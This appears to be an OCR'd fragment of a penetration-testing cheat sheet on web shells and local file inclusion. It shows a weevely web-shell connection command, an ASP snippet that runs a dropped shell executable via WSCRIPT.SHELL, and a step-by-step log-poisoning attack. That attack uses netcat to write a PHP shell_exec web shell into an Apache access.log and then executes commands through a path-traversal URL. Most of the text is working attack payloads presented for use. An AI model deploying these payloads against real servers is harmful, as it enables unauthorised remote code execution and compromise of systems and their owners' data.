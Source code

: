 weevely "http://192.168.1.101/webshell.php" password
ASP
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
/something/access.log injection
If you have LFI access to any web server error or access log files, you can attempt to inject malicious PHP code. Once the PHP code is written to the access.log and is reloaded, it will be displayed in your web browser as processed PHP. After adding the injected variable to our URL to we’ll have code execution.

First, we’ll attempt to inject by using Netcat.

root@kali:~# nc 192.168.72.134 80

<?php echo shell_exec($_GET['cmd']);?>

Now test if the injection was successful by including the new cmd variable into the URL.

?page=../../../../../var/log/apache2/access.log&cmd=/sbin/ifconfig
Depending on the circumstance the log file may be very very big. Scroll all the way down to check if the command execution was successful.
